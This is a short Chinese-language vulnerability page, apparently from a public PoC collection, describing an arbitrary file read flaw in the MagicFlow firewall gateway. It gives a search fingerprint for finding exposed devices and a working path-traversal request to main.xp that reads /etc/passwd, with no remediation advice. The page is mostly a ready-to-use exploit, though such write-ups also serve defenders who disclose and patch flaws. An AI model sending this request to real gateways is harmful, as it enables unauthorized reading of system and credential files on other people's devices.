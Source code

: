 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

<a-checkbox checked>MagicFlow 防火墙网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MSA/1.0"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609181301702.png)



构造POC



```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609182245927.png)